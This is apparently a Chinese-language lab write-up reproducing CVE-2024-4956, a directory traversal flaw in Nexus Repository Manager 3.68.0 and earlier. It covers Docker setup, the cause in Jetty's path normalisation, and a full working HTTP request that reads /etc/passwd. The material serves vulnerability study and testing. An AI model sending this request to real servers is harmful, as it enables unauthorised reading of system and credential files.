 # Nexus Repository Manager 3 未授权目录穿越漏洞（CVE-2024-4956）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。

其3.68.0及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## 漏洞环境

执行如下命令启动一个Nexus Repository Manager version 3.68.0 版本服务器： 

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到Nexus的默认页面。

## 漏洞复现

与Orange Tsai在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的SpringMVC CVE-2018-1271漏洞类似，Jetty的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：

发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，`/etc/passwd`已被成功读取：

![](1.png)
